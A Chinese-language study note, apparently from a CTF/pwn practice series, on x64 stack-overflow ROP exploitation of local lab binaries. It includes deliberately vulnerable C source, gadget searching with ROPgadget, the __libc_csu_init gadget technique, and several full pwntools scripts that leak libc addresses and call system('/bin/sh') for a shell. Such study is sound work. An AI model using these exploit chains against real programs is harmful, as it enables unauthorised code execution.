 
构造exp：
from pwn import *
p=process('./level1')
sys_addr=0x0000000004005B6
pay='a'*136+p64(sys_addr)
p.sendline(pay)
p.interactive()
寻找 gadgets
由于 x64 的参数前几个都存在寄存器上，所以需要找一些pop rdi ;ret之类的 gadget
level4.c源码：
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
void systemaddr()
{
void* handle = dlopen("libc.so.6", RTLD_LAZY);
printf("%p\n",dlsym(handle,"system"));
fflush(stdout);
}
void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
systemaddr();
write(1, "Hello, World\n", 13);
vulnerable_function();
}
编译：gcc -fno-stack-protector level4.c -o level4 -ldl
程序会给出 system 的地址，只需要自己搞一个 /bin/sh 就可以了，但是参数是存在寄存器中的，所以需要找一个 pop rdi ；ret
在程序里面找不到可以在程序使用的 libc.so 来寻找
ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi

写出exp：
from pwn import *
from LibcSearcher import *
p=process('./level4')
elf=ELF('./level4')
sys_addr=p.recvuntil('\n')
sys_addr=int(sys_addr,16)
libc=LibcSearcher('system',sys_addr)
pop_ret_offset=0x0000000000021102-libc.dump('system')
pop_ret_addr=pop_ret_offset+sys_addr
libc_base=sys_addr-libc.dump('system')
bin_sh=libc_base+libc.dump('str_bin_sh')
payload='a'*136+p64(pop_ret_addr)+p64(bin_sh)+p64(sys_addr)
p.sendline(payload)
p.interactive()
通用gadgets
x64 下面有一些万能的gadget：objdump -d ./level5 显示特定的汇编（-D 显示全部的）
观察一下 _libc_csu_init 一般来说，只要是调用了 libc.so 就会有这个函数来对 libc.so 进行初始化

这里面有一些对寄存器操作的，需要注意的是 AT&T 与 8086 汇编语法有些区别
这些前面带百分号的极有可能是 AT&T 汇编，它的 mov 源操作数与目的操作数跟 8086 是反着的
40060b: 48 8b 6c 24 10 mov 0x10(%rsp),%rbp
400610: 4c 8b 64 24 18 mov 0x18(%rsp),%r12
400615: 4c 8b 6c 24 20 mov 0x20(%rsp),%r13
40061a: 4c 8b 74 24 28 mov 0x28(%rsp),%r14
40061f: 4c 8b 7c 24 30 mov 0x30(%rsp),%r15
通过构造栈上的数据，调用 1 然后返回到 2 就可以控制寄存器

临时参考：https://blog.csdn.net/weixin_43467772/article/details/89131527 首先通过溢出把一堆数据写在栈上，此时返回地址覆盖为 gadgets1，调用 gaegets1 的时候 rsp+8 通过 gadgets1 把栈上的数据写在寄存器里面，同时把 rsp 再加一下让程序返回到 gadgets2
gadgets2 会把之前寄存器上存的数据放在需要的寄存器上（参数存放顺序：RDI, RSI, RDX, RCX, R8 和 R9） 把 write 函数需要的参数部署好之后通过 call(r12+rbx*8) 之前把 rbx设置成了 0，当程序执行完 write 函数以后会自己回到这里（因为是 call，正常调用）所以不用管返回地址，继续执行，此时还会执行 gadgets1 上面那张图那样子，gadgets1 里面有一段 add rsp,38h 所以还要填充 38h 个字节把这一段填充掉，使得程序返回的时候是我们写在栈上的 main_addr

剩下的同理，只是 read 从标准输入流（0，即控制台）读取 0x100 放到 .bss 段里面
#!python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
elf = ELF('level5')
p = process('./level5')
got_write = elf.got['write']
got_read = elf.got['read']
main_addr = 0x400564
bss_addr=0x601028
payload1 = "\x00"*136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) + p64(0x4005F0) + "\x00"*56 + p64(main_addr)
p.recvuntil("Hello, World\n")
print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)
write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_addr=libc_base+libc.dump('system')
print "system_addr: " + hex(sys_addr)
p.recvuntil("Hello, World\n")
payload2 = "\x00"*136 + p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) + p64(0x4005F0) + "\x00"*56 + p64(main_addr)
print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)
p.send(p64(sys_addr))
p.send("/bin/sh\0")
sleep(1)
p.recvuntil("Hello, World\n")
payload3 = "\x00"*136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) + p64(0x4005F0) + "\x00"*56 + p64(main_addr)
print "\n#############sending payload3#############\n"
sleep(1)
p.send(payload3)
p.interactive()
给出的exp
#!python
#!/usr/bin/env python
from pwn import *
#context.log_level="debug"
elf = ELF('level5')
libc = ELF('libc.so.6')
p = process('./level5')
got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)
main = 0x400564
off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)
#rdi= edi = r13, rsi = r14, rdx = r15
#write(rdi=1, rsi=write.got, rdx=4)
payload1 = "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
p.recvuntil("Hello, World\n")
print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)
write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)
bss_addr=0x601028
p.recvuntil("Hello, World\n")
#rdi= edi = r13, rsi = r14, rdx = r15
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 = "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)
p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)
p.recvuntil("Hello, World\n")
#rdi= edi = r13, rsi = r14, rdx = r15
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 = "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
print "\n#############sending payload3#############\n"
sleep(1)
p.send(payload3)
p.interactive()
安装 edb
有命令失败前面加个 sudo
sudo apt-get install \
cmake \
build-essential \
libboost-dev \
libqt5xmlpatterns5-dev \
qtbase5-dev \
qt5-default \
libqt5svg5-dev \
libgraphviz-dev \
libcapstone-dev \
pkg-config
git clone --recursive https://github.com/eteran/edb-debugger.git
cd edb-debugger
cmake -DCMAKE_INSTALL_PREFIX=/usr/local/ ..
make
make install
安装完成后直接在命令行里使用 edb 运行